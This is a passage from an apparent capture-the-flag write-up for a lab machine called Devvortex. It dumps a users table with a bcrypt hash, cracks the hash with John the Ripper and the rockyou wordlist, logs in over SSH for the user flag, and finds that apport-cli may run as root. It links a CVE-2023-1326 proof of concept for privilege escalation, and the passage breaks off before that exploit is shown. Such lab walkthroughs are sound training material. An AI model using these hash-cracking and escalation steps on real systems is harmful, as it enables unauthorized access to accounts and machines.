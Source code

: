 ```bash
select * from sd4fg_users\G
[...snip]
*************************** 2. row ***************************
           id: 650
         name: logan paul
     username: logan
        email: logan@devvortex.htb
     password: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
[...snip]
```

<p>We save it to a file called "hashcrackmepls" and use John The Ripper with the "rockyou.txt" wordlist to crack the hash.</p>

```bash
john --wordlist=Tools/rockyou.txt hashcrackmepls
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:26 0.00% (ETA: 2024-05-16 02:35) 0g/s 33.90p/s 33.90c/s 33.90C/s mylife..animal
0g 0:00:00:35 0.01% (ETA: 2024-05-16 01:45) 0g/s 34.01p/s 34.01c/s 34.01C/s soledad..rascal
tequieromucho    (?)
[...snip]
```

<p>The password is "tequieromucho". We can then log into the machine via SSH and get the "user.txt" flag:</p>

```bash
cat user.txt
af3dfe6520b8dffe6bdc801d09c0d8fc
```

## Root Flag

<p>The first thing we will run after logging into the machine is running "sudo -l". We will get the following output:</p>

```bash
sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

<p>So, Logan can run "/usr/bin/apport-cli" as root. It seems like there's a CVE related to privilege escalation with apport-cli. According to its <a href="https://github.com/diego-tella/CVE-2023-1326-PoC">PoC</a>, we can become rooting by doing the following:</p>
